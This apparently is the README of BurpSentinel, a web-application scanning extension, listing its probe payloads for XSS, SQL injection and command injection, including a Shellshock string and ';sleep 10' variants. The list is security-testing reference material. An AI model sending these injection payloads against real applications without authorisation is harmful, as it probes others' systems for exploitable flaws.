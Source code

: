 = BurpSentinel Payloads

Based on my presentation on BSidesVienna 2014: http://www.slideshare.net/nibod/bsides-viennasentinel-v04
A short description of the payloads used by BurpSentinel. The payloads are developed to be as efficient as possible. There should be no unecessary payloads. 

== XSS

If the web app returns <p>", it is vulnerable to XSS. 

For tag based injection:
[source]
----
%3Cp%3E%22
<p>"
----

Both of the above will be sent like written above. The 2nd, unencoded version will be not exploitable in real life if the parameter is in GET (HTTP URL).

For tag value based injection:

[source]
----
%22%3D 
"=
----

Both of the above will be sent like written above. The 2nd, unencoded version will be not exploitable in real life if the parameter is in GET (HTTP URL).

== SQL

The SQL tests are positive-based. The BREAK request should return another response than the original request. If not, we will not perform any additional scans. If one of the follow up request is identical to the original request, the webapp is most likely vulnerable to SQLi. 

=== SQLu

The old SQL tests:

[source]
----
'BREAK"
        
OR 41=41
' OR '41'='41
" OR "41"="41

/**/

) OR (41=41
') OR ('41'='41
") OR ("41"="41"
----

If the attack vector is in POST (HTTP body), try each of the above with and without URL encoding. For GET (HTTP URL), just use URL encoding.

=== SQLs

The new SQL tests:

[source]
----
'BREAK"

ORIG+1-1
ORIG'+0+'0

ORIG[0]' || 'ORIG[1-END]
ORIG[0]' + 'ORIG[1-END]
ORIG[0]' 'ORIG[1-END]
/**/ORIG
----

If the attack vector is in POST (HTTP body), try each of the above with and without URL encoding. For GET (HTTP URL), just use URL encoding.

== Other

[source]
----
() { :;}; sleep 10
;sleep 10
\" ;sleep 10
' ;sleep 10
|sleep 10
\\'
----